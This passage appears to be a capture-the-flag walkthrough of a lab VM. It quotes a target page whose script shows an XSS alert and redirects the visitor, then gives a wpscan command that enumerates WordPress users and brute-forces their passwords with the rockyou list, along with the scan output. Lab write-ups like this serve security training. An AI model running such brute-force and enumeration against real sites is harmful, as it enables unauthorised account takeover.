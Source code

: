 Going to `https://10.0.2.5:12380/admin112233` reveals a dead end but contains a simple HTML page containing a pop-up referencing a category of injection attacks called <acronym title="Cross-Site Scripting">XSS</acronym>.

``` html
<html>
<head>
<title>mwwhahahah</title>
<body>
<noscript>Give yourself a cookie! Javascript didn't run =)</noscript>
<script type="text/javascript">window.alert("This could of been a BeEF-XSS hook ;)");window.location="http://www.xss-payloads.com/";</script>
</body>
</html>
```

Going to `https://10.0.2.5:12380/blogblog` reveals a WordPress blog with some posts by the user John and a login page.  
We can use the `wpscan` tool to enumerate available directories and users for the WordPress blog.
`wpscan` is also able to brute force the passwords for the usernames it finds.  
For brute forcing we can use the rockyou.txt password list.

```
$ wpscan --url https://10.0.2.5:12380/blogblog/ --disable-tls-checks --enumerate u -P /usr/share/wordlists/rockyou.txt

[+] URL: https://10.0.2.5:12380/blogblog/ [10.0.2.5]

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.18 (Ubuntu)
 |  - Dave: Soemthing doesn't look right here
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://10.0.2.5:12380/blogblog/xmlrpc.php
 | Found By: Headers (Passive Detection)
 | Confidence: 100%
 | Confirmed By:
 |  - Link Tag (Passive Detection), 30% confidence
 |  - Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://10.0.2.5:12380/blogblog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Registration is enabled: https://10.0.2.5:12380/blogblog/wp-login.php?action=register
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://10.0.2.5:12380/blogblog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://10.0.2.5:12380/blogblog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
```